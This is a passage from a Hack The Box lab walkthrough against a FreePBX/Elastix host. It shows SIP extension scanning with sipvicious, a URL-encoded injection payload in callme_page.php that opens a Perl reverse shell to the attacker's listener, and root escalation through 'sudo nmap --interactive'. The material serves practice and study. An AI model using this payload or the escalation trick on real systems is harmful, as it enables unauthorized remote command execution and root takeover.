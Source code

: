 seem like the extention is not working. After some googleing, I found out that we need to change then extention to the one that is working. **IPPSEC** was talking about a tool cal [Sipvicious](https://github.com/EnableSecurity/sipvicious). that can be use to find the enable/avalible extension. He also mention that you could visite `/panel/` which we found using `gobuster` but my web browser is missing some flash extention so I skiped that part.

we can use `svwar.py - SIPvicious extension line scanner`
```console
[10.10.14.43]-bibo318@parrot:/opt/sipvicious$ sipvicious_svwar -m INVITE -e1-1000 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
```
now let modify our payload, change to `callmenum=233`
```
```
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.43%3a6969%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```
open nc listen and visit the ablow site
```console
10.10.14.43]-bibo318@parrot:~/HTB/popcorn$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.7] 55522
whoami
asterisk
```
so back to our exploit it told us that `asterisk` is allow to run nmap as root with nopasswd. We will use nmap interactive mode to spawn shell!
```console
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```